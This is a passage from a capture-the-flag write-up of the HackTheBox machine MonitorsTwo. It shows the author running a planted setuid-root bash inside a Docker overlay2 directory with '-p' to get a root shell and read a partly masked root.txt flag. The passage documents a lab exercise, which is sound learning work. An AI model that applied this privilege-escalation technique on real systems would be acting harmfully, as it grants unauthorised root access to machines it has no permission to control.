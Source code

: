     
    
    marcus@monitorstwo:~$ ls -l /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    -rwsrwxrwx 1 root root 1234376 May  1 11:14 /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf
    

Running it (with `-p` to not drop privs) gives a root shell:

    
    
    marcus@monitorstwo:~$ /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged/tmp/0xdf -p
    0xdf-5.1#
    

And I can read `root.txt`:

    
    
    0xdf-5.1# cat root.txt
    2d1cb34e************************
    

[](/2023/09/02/htb-monitorstwo.html)

